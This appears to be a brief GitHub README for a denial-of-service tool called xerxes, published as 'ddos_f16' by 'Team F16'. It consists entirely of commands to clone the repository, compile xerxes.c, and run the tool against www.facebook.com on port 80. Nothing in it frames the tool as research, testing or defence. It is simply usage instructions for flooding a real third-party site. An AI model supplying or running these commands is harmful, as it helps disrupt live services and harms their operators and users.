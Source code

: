 <h1 align="center">F16</h1>
<p align="center">
  Team F16
</p>

### CLONE
```
# git clone https://github.com/th3ross/ddos_f16.git
```

### COMPILE
```
# gcc xerxes.c -o xerxes
```

### RUNNING
```
# ./xerxes www.facebook.com 80
```
